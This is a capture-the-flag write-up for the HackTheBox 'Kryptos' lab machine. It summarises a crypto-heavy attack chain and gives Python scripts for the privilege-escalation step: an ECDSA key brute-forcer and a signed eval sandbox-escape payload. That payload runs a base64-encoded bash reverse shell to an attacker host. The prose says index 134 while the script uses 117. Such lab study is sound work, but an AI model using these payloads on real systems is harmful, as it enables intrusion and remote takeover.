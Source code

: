 # Kryptos (PDO Injection, SQLite3 RCE, Python Eval Injection)

KryptOS is an insane difficulty Linux box which requires knowledge of how cryptographic
algorithms work. A login page is found to be vulnerable to PDO injection, and can be hijacked to
gain access to the encrypting page. The page uses RC4 to encrypt files, which can be subjected
to a known plaintext attack. This can be used to abuse a SQL injection in an internal web
application to dump code into a file, and execute it to gain a shell. A `Vimcrypt` file is found, which
uses a broken algorithm and can be decrypted. A vulnerable python app running on the local
host is found using a weak RNG (Random Number Generator) which can be brute forced to gain
RCE via the `eval` function.

# Skills Learned:

- PDO Injection
- Exploiting RC4 flaws
- RCE via SQLite3
- Decrypting Vimcrypt files
- Analysing RNG
- Python eval injection

# Problems I Ran Into

1. Priv Esc (Python eval injection)
    - Following the official walkthrough by HTB, there is a `[brute.py](http://brute.py)` script that you have to run to test if the server is vulnerable and to the get the signature being used
    - The script given in the walkthrough gave me problems so I had to tweak it a bit. Here is the script I used:
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines() # uniq.txt is the list of unique values found from rng.py
    expr = "900 + 1"
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    for rand in uniq_vals:
    	sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    	sig = sign(expr, sk)
    	data = { "expr" : expr , "sig" : sig }
    	res = requests.post( url, json = data )
    	print res.text
    	if "Bad" not in res.text:
    		print "Found signature {}".format(sig)
    		print res.text
    		print "Rand: {}".format(rand) # the unique value from uniq.txt
    		print "KEEP NOTE OF THE RAND"
    		break
    ```
    
    - After I found the signature and uniq rand, I tweaked the script again, but after I found where the `os` class is located in python
    - To find the `os` class do the following:
        - open python interpreter in the command line
        
        ```python
        >>> count = 0
        >>> for i in [].__class__.__base__.__subclasses__():
        ...    print(count)
        ...    count += 1
        ...    print(i)
        ...
        
        ```
        
        - `<class 'os.wrap_close'>` is found to be number 134
    ![os Class](https://scriptkiddiehub.com/wp-content/uploads/2021/10/kryptos.png)
    - Set up your nc listener and run the following tweaked `brute.py`
    - Now here is the tweaked `[brute.py](http://brute.py)` :
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines()
    expr = "[].__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__['system']('echo YmFzaCAtaSA+JiAvZGV2L3RjcC88QVRUQUNLRVIgSVA+LzEyMzQgMD4mMQ== | base64 -d | bash')"
    
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    rand = 59763658961195455702488250327064726633945798537104807246171656262148712073505
    sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    sig = sign(expr, sk)
    data = { "expr" : expr , "sig" : sig }
    res = requests.post( url, json = data )
    
    if "Bad" not in res.text:
    	print "Found signature {}".format(sig)
    	print res.text
    ```